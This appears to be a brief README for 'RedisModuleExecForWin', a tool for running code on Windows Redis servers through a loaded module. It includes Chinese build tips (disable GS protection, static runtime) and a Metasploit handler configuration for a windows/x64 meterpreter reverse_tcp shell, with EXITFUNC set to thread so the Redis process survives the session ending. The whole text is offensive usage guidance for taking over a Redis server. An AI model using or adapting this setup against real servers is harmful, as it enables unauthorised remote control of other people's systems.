

# RedisModuleExecForWin


code函数随便写
gs保护关闭，mtd，release版本
注意事项就是exitfunc设置成thread，别meterpreter一退出就redis-server.exe也退出了

```bash
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     0.0.0.0          yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target
```

